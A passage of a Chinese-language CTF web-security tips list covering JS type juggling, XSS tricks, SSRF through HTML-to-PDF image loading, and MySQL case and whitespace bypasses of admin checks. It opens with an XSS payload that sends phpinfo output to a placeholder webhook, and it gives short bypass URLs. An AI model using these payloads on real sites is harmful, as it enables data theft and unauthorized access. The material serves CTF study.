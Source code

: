 ```html
<script>
fetch('/phpinfo.php', {
method: 'POST'})
.then((response) => response.text())
.then((data) => fetch('webhook之类网址', {
method: 'POST',body:btoa(data)}));
</script>
```

141. js中的type juggling。审查源码时，可能会发现服务器期望输入变量是字符串等简单类型，但如果没有对变量做严格过滤，或是使用了express的`express.urlencoded()`（其extended属性默认接受复杂类型），就可以尝试攻击，比如改成数组之类的。例题:[queue up!](https://github.com/sambrow/ctf-writeups/blob/main/2023/la-ctf/queue-up.md)
142. 当xss代码以innerHTML形式插入时，浏览器不会执行这样的代码。可以用`<img/src=1 onerror=function()>`或`<iframe>`替代。`<iframe>`有个srcdoc属性，里面的内容会被当作html执行。这种解法可在[这里](https://hackmd.io/@lamchcl/r1zQkbvpj#webhptla)找到。
143. js的多行注释/\*\*/可用于绕过滤和跨多行执行xss，不过要注意，多行注释不要用在js关键字中间，例如`win/**/dow`。因为js会把/\*\*/解释为空格，window就失效了。例题:[hptla](https://blog.jaquiez.dev/Blog/LACTF2023/#hptla)
144. typescript+ssrf。例题:[[2021祥云杯]secrets_of_admin](https://blog.csdn.net/weixin_46081055/article/details/123959252)。此题的知识点：

- 下面这个路由：

```ts
router.get('/api/files/:id'...)
```

当我们访问`http://xxx.com/api/files/aaa`时，aaa就是id的值。
- 利用\<img\>标签的src属性触发ssrf。\<img\>标签会加载src指定的资源，如果我们往src里输入想要ssrf的目标网址，自然就是用当前服务器的身份构造了一次ssrf了。其他有类似属性的标签也可以这么用。当然，对应网址需要被加载，这题里面触发场景为html转pdf时加载图片资源。
- `content.includes('<')`可以用数组类型的`content[]`绕过。
- http-pdf 任意文件读取漏洞。可以用XHR（XMLHttpRequest）任意文件读取。
- ts开放在8888端口。
- 当看到`filename   VARCHAR(255) NOT NULL UNIQUE`的数据库配置,说明filename这个字段值不能重复。这道题的解决方法是构造垃圾目录（flag已有，构造./flag，由于路径字符串拼接，没有影响）。

145. mysql查询特性。

- 不分大小写/多余空格。下面的代码：

```php
$username=mysqli_real_escape_string($conn,$_GET['username']);
$password=mysqli_real_escape_string($conn,$_GET['password']);
if ($username=="admin" && $_SERVER['REMOTE_ADDR']!=="127.0.0.1")
{
    die("Admins login are allowed locally only");
}
else
{
    //查询逻辑，用户名和密码为admin/admin，查得出来就给flag
}
```

可以用`http://xxx.com?username=Admin&password=admin`来绕过。就算填写的用户名是Admin，依然能查询出来admin的数据。另一种绕过方式是`http://xxx.com?username=admin &password=admin`，多了个空格。
- 默认将unicode字符转为字母。

```php
$username=mysqli_real_escape_string($conn,$_GET['username']);
$password=mysqli_real_escape_string($conn,$_GET['password']);
if (preg_match("/admin/i",$username) && $_SERVER['REMOTE_ADDR']!=="127.0.0.1")
{
    die("Admins login are allowed locally only");
}
else
{
    //查询逻辑，用户名和密码为admin/admin，查得出来就给flag
}
```
